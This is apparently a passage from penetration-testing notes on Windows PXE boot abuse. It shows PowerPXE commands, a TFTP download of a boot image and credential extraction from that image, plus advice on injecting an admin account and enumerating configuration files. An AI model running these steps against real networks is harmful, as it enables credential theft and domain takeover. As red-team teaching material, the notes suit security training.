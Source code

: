 ```powershell
import-module .\powerpxe.ps1
```

```powershell
$bcdfile = “conf.bcd”
```

```powershell
get-wimfile -bcdfile $bcdfile
```

![](../.gitbook/assets/18.png)

**Windows Imaging Format (WIM)** files are bootable images.

Use TFTP do download fully bootable and configured Windows image:

```
tftp -i 10.200.4.202 GET “\Boot\x64\Images\LiteTouchPE_x64.wim” pxeboot.wim
```

![](../.gitbook/assets/19.png)

### Recovering Credentials from a PXE Boot Image <a href="#r7yr8myq4hwe" id="r7yr8myq4hwe"></a>

Exfiltrate stored credentials from recovered PXE Boot image. Inject local administrator account to provide admin access upon image boot. Install image to provide domain joined machine.&#x20;

Use powerpxe to recover credentials from image’s bootstrap file:

```powershell
get-findcredentials -wimfile pxeboot.wim
```

![](../.gitbook/assets/20.png)

### Configuration Files <a href="#um7hroiiwrg6" id="um7hroiiwrg6"></a>

Various configuration files on breached host may be of value for enumeration:

* Web application config files.
* Service configuration files.
* Registry keys.
* Centrally deployed applications.
* [Seatbelt](https://github.com/GhostPack/Seatbelt) enumeration script can automate this process.
